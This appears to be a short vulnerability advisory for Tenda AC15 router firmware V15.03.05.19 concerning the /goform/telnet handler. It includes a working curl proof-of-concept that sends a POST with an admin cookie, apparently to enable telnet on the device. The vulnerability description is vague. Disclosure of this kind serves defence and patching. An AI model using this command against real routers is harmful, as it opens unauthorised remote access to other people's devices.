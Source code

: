 # TendaAC15v15.03.05.19telnet

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/102680

## Affected version

AC15v1.0 V15.03.05.19

## Vulnerability details

An issue was discovered in AC15v1.0 V15.03.05.19 devices. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

![image-20250117231252601](F:\Desktop\工具\二进制漏洞\IoT\img\image-20250117231252601.png)

## POC

```python
curl -i -X POST http://192.168.1.100/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

![image-20250117231359310](F:\Desktop\工具\二进制漏洞\IoT\img\image-20250117231359310.png)

